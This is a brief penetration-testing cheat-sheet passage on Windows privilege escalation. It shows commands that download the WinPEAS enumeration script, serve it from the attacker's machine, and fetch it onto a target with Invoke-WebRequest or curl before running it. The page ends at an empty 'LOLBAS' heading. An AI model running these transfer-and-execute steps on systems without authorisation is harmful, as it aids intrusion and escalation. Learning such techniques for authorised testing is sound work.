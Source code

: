```yaml
---
title: Windows Privilege Escalation
description: Privilege Escalation (PrivEsc) in Windows is a process that get the Administrator credential and login.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
date: 2023-08-24
draft: false
---
```


## Automation

**[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)** scans the Local Privilege Escalation vulnerabilities on Windows machine automatically.  

### 1. Download WinPEAS on Your Local Machine

```sh
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220710/winPEAS.bat
```

Start web server to allow the target machine to get the WinPEAS.

```sh
python3 -m http.server 8000
```

### 2. Transfer WinPEAS using PowerShell on the Target Machine

```powershell
cd \Users\<user-name>\Desktop
powershell

Invoke-WebRequest -Uri http://<your-local-ip>:8000/winPEAS.bat -OutFile .\winPEAS.bat
# or
curl http://<your-local-ip>:8000/winPEAS.bat -o .\winPEAS.bat
```

### 3. Execute WinPEAS

```powershell
.\winPEAS.bat
```

<br />

## LOLBAS
